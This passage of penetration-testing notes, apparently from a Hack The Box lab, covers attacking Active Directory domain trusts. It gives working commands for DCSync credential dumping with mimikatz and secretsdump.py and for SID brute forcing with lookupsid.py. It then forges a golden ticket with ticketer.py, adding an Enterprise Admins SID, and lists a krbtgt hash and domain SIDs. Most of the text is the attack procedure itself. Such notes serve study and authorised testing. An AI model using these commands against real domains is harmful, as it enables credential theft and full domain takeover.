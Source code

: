 #### Perform DCSync Attack
```PowerShell
mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

- When dealing with multiple domains and our target domain is not the same as the user's domain, we need to specify exact domain
```PowerShell
lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INALNEFREIGHT.LOCAL
```

-----
# Attack Domain Trusts - From Linux
-----
## Perform DCSync with `secretsdump.py`
```bash
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

- Use [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) to perform SID brute forcing
```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

- Rerun the tool to brute force SID of the parent domain INLNAEFREIGHT
```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

- Once we get the SID of the parent domain, append RID to the end to get the "Enterprise Admins" group SID. According to [this](https://adsecurity.org/?p=1001), we append 519
- Now we have collected:
	- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
	- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
	- The name of a target user in the child domain (does not need to exist!): hacker
	- The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
	- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

- Create a golden ticket using ticketer.py
```bash
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519  hacker
```

- Set the KRB5CCNAME environment variable
```bash
export KRB5CCNAME=hacker.ccache
```
